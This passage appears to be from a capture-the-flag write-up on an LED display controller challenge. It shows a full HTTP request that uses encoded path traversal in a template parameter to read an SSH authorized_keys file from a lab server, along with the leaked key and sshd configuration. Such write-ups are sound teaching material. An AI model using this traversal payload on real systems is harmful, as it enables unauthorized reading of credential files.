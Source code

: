 
I spent some time reading the source code. Nothing stood out as a vulnerability. I also extracted the `config.ini` file, it had nothing interesting. 

```ini
[message_data]
departure_location = Vieux-Port de Montreal
boat_name = CVSS Bonsecours
```

I tried reading other files from the server. But I did not find anything interesting. The controller UI made it clear that it was using SSH to reach out to `led-display.ctf` from `led-display-controller.ctf`. I tried to have it connect to itself, the connection was refused. I extracted the `.ssh/authorized_keys` from the display server.

```http
GET /?host=led-display.ctf&port=22&username=service&function=change_template&argument=..%2F..%2F..%2F..%2F..%2Fhome%2Fservice%2F.ssh%2Fauthorized_keys&password=Bonsecours123%21 HTTP/1.1
Host: led-display-controller.ctf:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: upgrade
Sec-WebSocket-Accept: JQ+pE3D0a8m7pOa19yWbFIMtV8Q=
Date: Mon, 19 May 2025 19:13:08 GMT
Server: Python/3.12 aiohttp/3.11.18

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPF6UoytmD3jDcZpOCBHM9s3euyPkm0UlGuhv7Cv3oO/ mbergeron@pentest-mbergeron
```

It showed that an SSH private key was probably used to connect to it. Either by the script that modified the display, or by the challenge designer. I tried reading private keys on this server. I did not find any.

I was wondering how the script was executed on the display server. I extracted the SSH configuration. This had something interesting at the end.

```
Match User service
  ForceCommand ./update.sh
  PermitTunnel no
  PermitOpen none
  AllowAgentForwarding no
  AllowTcpForwarding no
  X11Forwarding no
```
